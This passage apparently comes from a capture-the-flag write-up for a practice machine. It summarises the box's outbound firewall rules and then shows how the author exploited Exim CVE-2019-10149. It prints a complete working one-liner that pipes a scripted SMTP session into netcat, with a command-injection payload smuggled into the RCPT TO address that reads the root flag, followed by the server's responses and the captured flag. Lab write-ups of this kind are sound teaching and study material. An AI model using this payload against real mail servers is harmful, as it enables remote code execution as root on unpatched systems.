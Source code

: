 Specifically looking at the OUTPUT rules, the default policy is to block. Then , the rules are:
1. Allow icmp out.
2. Allow DNS out based on dest port.
3. Allow FTP-data out based on source port.
4. Allow anything out via loopback.
5. Allow established TCP connections out.
6. Allow established UDP connections out.
7. Reject.

### Exim Exploit CVE-2019-10149

I had written some defensive signatures for this CVE when it was released in summer 2019, so I was excited to see this box potentially running a vulnerable version of EXIM. It took a bit of playing around with, but [this post](https://glitchwitch.io/blog/2019-06/exploiting-cve-2019-10149/) really helped. Shoutout to jkr, who was very helpful in figuring this out.

I’ll do a `touch` on the file first, as if EXIM creates it, it creates it with permissions 600, which means I won’t be able to read it. Then, I’ll string a bunch of `echo` and `sleep` to simulate the SMTP connection, sending the malicious payload in the to address. In this case, I’ll have it run the command to copy the root flag into `/dev/shm`. It’s tricky not to use `/tmp` here, since systemd’s private tmp feature means that Apache and EXIM have different `/tmp`.

```

scavenger> touch /dev/shm/flag;(sleep 0.1 ; echo HELO foo ; sleep 0.1 ; echo 'MAIL FROM:<>' ; sleep 0.1 ; echo 'RCPT TO:<${run{\x2Fbin\x2Fsh\x09-c\x09\x22cat\x09\x2Froot\x2Froot.txt\x3E\x3E\x2Fdev\x2Fshm\x2Fflag\x22}}@localhost>' ; sleep 0.1 ; echo DATA ; sleep 0.1 ; echo "Received: 1" ; echo "Received: 2" ;echo "Received: 3" ;echo "Received: 4" ;echo "Received: 5" ;echo "Received: 6" ;echo "Received: 7" ;echo "Received: 8" ;echo "Received: 9" ;echo "Received: 10" ;echo "Received: 11" ;echo "Received: 12" ;echo "Received: 13" ;echo "Received: 14" ;echo "Received: 15" ;echo "Received: 16" ;echo "Received: 17" ;echo "Received: 18" ;echo "Received: 19" ;echo "Received: 20" ;echo "Received: 21" ;echo "Received: 22" ;echo "Received: 23" ;echo "Received: 24" ;echo "Received: 25" ;echo "Received: 26" ;echo "Received: 27" ;echo "Received: 28" ;echo "Received: 29" ;echo "Received: 30" ;echo "Received: 31" ;echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25
220 ib01.supersechosting.htb ESMTP Exim 4.89 Tue, 27 Aug 2019 08:22:09 +0200
250 ib01.supersechosting.htb Hello localhost [127.0.0.1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1i2Urp-0000m2-Dy
221 ib01.supersechosting.htb closing connection

scavenger> cat /dev/shm/flag
4a08d8174e9ec22b01d91ddb9a732b17
4a08d8174e9ec22b01d91ddb9a732b17

```